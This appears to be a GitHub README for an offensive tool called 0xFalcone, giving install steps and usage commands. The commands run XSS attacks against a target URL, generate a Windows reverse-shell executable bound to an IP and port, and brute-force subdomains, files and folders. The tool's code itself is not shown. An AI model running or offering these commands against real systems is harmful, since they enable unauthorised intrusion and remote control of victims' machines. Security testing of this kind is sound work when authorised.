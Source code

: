 # 0xFalcone
<p align="center">
 <img src="https://user-images.githubusercontent.com/76629405/147866636-66a975ba-8785-455e-9f30-7a7de8b933f7.png" width=250>
</p>
<h3>Installation</h3>
 Install 0xFalcone Tool:
<hr>

```apt install git```

``` git clone https://github.com/hassanalharbi123/0xFalcon ```

``` cd 0xFalcon ```

``` python3 install.py ```
<hr>

<h3>Usage</h3>

``` python3 exploit.py -h ```

![image](https://user-images.githubusercontent.com/76629405/147748640-229c15f4-51ca-42b6-b4b7-343a96b84785.png)

 Example XSS Tool: ``` python3 exploit.py -u xss -T http://example.com -L list.txt -m GET -n username ```
 
 Windows Reverse Shell: ``` python3 exploit.py -u shell -y exe -I 127.0.0.1 -P 1111 -F payloadexe  ```
 
 ![image](https://user-images.githubusercontent.com/76629405/147749039-ac562649-0096-4e82-a004-5071f8e8384f.png)
 
 Subdomains Brute Force: ``` python3 exploit.py -u subdomain -T http://example.com -L list.txt ```
 and you can also Brute Force Attack (Files and Folders), Extract Picture metadata.
